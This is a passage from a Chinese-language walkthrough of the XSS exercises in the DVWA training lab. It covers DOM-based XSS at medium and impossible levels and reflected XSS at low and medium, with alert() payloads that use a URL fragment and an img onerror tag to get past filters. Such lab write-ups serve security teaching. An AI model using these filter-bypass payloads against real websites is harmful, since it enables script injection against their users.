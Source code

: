 ```
			# ok
			break;
		default:
			header ("location: ?default=English");
			exit;
	}
}

```
直接请求参数限制死了只能是这几种语言，通过锚点来越过
```
http://192.168.20.48/DVWA/vulnerabilities/xss_d/?default=English#<script>alert(1)</script>
```
#### impossible
查看index.php代码
```
# For the impossible level, don't decode the querystring
$decodeURI = "decodeURI";
if ($vulnerabilityFile == 'impossible.php') {
	$decodeURI = "";
}

```
不转码html，直接就没辙了

### XSS（Reflected）（反射型跨站脚本）
反射型XXS是一种非持久性的攻击，它指的是恶意攻击者往Web页面里插入恶意代码，当用户浏览该页之时，嵌入其中Web里面的html代码会被执行，从而达到恶意攻击用户的目的。

#### Low
文本框输入：
```
<script>alert('xss')</script>
```
![在这里插入图片描述](/docs/images/content/security/burp_suite/action_01_web.md.images/e5a5de0d428404f1f1fc7e0b15ca26fa.png)

```
或者参数上：http://192.168.20.48/DVWA/vulnerabilities/xss_r/?name=<script>alert('xss')</script>
```

#### Medium
同xssdom，也是过滤掉了script标签
```
或者参数上：http://192.168.20.48/DVWA/vulnerabilities/xss_r/?name=<img src="a" onerror="alert(1)"></img>
```
